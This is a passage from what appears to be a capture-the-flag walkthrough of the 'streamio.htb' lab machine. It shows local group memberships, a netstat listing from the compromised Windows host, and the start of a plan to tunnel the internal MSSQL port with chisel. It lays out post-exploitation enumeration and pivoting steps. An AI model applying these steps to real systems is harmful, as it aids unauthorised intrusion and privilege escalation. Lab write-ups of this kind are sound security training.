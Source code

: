 ```powershell
Last logon                   6/5/2022 12:35:13 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
Global Group memberships     *Domain Users
```

We might need to find a way to escalate from `yoshihide` to `Martin` or `Administrator`.

Enumerating the network - Ports listening:
```powershell
PS C:\inetpub\streamio.htb\admin> netstat -ano | findstr LISTENING                                                                                                                         

  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4                                                                                 
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       616
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       884
  TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       616
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       616
  TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       884
  TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       616
  TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       3584
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING       2592
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       472
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1076
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1456
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       616
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       616
  TCP    0.0.0.0:49670          0.0.0.0:0              LISTENING       616
  TCP    0.0.0.0:49682          0.0.0.0:0              LISTENING       608
  TCP    0.0.0.0:49697          0.0.0.0:0              LISTENING       2776
  TCP    0.0.0.0:60269          0.0.0.0:0              LISTENING       2748
  TCP    10.129.186.175:53      0.0.0.0:0              LISTENING       2776
  TCP    10.129.186.175:139     0.0.0.0:0              LISTENING       4
...[SNIP]...
```

If we compare the ports here with the ones we got in the nmap port scan we will find some differences. One of them is the **port 1433 (MSSQL)** is listening internally only and we have the credentials for the database. We can use `chisel` to forward this port to our machine so we can use some pentest tools.

### Forward MSSQL port to our local machine
Download chisel for linux and windows:
```bash
# Chisel for linux
$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz

# Chisel for windows
$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz
```
